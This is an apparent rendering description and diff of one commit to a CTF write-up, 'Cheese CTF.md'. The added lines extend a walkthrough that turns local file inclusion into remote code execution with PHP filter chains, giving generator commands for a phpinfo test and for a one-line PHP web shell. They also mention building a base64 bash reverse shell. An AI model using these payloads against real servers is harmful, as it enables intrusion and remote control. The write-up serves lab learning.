

Before and after one commit to Frankishtien/Challenges-writeups-CTFS, a Markdown page: Cheese CTF.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Cheese CTF.md
+++ b/Cheese CTF.md
@@ -171,3 +171,17 @@ try to make url like ``http://10.10.0.223/secret-script.php?file=php://filter/re
 Boom !!!
 
 > notice we found in /etc/passwd our user we found ``comte``
+
+> ### ``that can make use do LFI2RCE using PHP Filters``
+
+we will do it with ``php_filter_chain_generator.py`` >> https://github.com/synacktiv/php_filter_chain_generator
+
+- First, we keep it simple and generate a payload to display the phpinfo page to see if filter chaining is possible.
+
+```
+python3 php_filter_chain_generator.py --chain '<?php phpinfo();?>'
+```
+
+![image](https://github.com/user-attachments/assets/71137a37-0302-4072-ad03-5a5215aaf5a0)
+
+
@@ -173,0 +203,12 @@ Boom !!!
+``Next, we generate a payload with the smallest possible PHP web shell.``
+
+```
+python3 php_filter_chain_generator.py --chain '<?=`$_GET[0]`?>'
+```
+``put the output in url``
+
+![image](https://github.com/user-attachments/assets/466dee0f-ad17-4e3e-88a5-57f1c7d08f29)
+
+> We now want to have a more interactive reverse shell. To do this, we spawn a reverse shell. We build a ``Bash -i`` reverse shell using ``revshells.com`` and encode it in base64.
+
+![image](https://github.com/user-attachments/assets/6d5ffdb6-ecdd-4d81-b797-3906d631d02f)
````
Also changed, not shown: other parts of Cheese CTF.md (+15 -0 lines).
